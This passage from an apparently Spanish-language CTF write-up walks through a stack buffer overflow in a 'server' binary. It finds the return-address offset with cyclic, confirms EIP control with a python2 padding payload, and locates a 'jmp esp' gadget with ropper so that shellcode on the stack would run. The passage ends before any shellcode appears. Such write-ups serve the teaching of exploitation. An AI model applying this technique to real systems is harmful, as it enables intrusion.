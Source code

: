 Como siempre, revisamos el valor de `EIP`:

```gdb-pwndbg
*EBP  0x61616173 ('saaa')
*ESP  0xffffd0b0 ◂— 'uaaavaaawaaaxaaayaaa'
*EIP  0x61616174 ('taaa')
```

Y con *cyclic* calculamos el *offset*:

```bash
cyclic -l taaa
```
```cyclic
Found at offset 76
```

Como vemos, es 76. Como teníamos una función que llamaba a la instrucción `jmp %esp`, podemos tratar de me introducir en dicho registro un *shellcode* y llamar a dicha instrucción.

Como hemos visto antes, el registro `esp` es el contiguo a `eip` (`eip` contenía `taaa` y `esp`, `uaaav...`), por tanto podríamos hacer la prueba introduciendo caracteres con python2:

```bash
python2 -c 'print "A"*76 + "B"*4 + "C"*100'
```

Si copiamos la salida y se la pasamos al programa mediante [[gdb]]-[[pwndbg]], podremos ver lo siguiente:

```server
Please leave your comments for the server admin but DON'T try to steal our flag.txt:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
```
```gdb-pwndbg
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd0b0 ◂— 'CCCCCCCC[...]'
*EIP  0x42424242 ('BBBB')
```

Por lo que podemos concluir que efectivamente somos capaces de escribir en dicho registro y en la dirección de retorno.


## Explotación

Para la explotación, almacenaremos un *shellcode* en `esp` y sobrescribiremos la dirección de retorno con la dirección del *gadget* (la instrucción en ensamblador) de `secret_function` (`jmp %esp`), de forma que dicha instrucción ejecutará el *shellcode*.

Para obtener la dirección del *ROP gadget* (la instrucción) `jmp %esp`, utilizaremos [[ropper]]:

```bash
ropper --file server --search "jmp esp"
```
```ropper
0x0804919f: jmp esp;
```
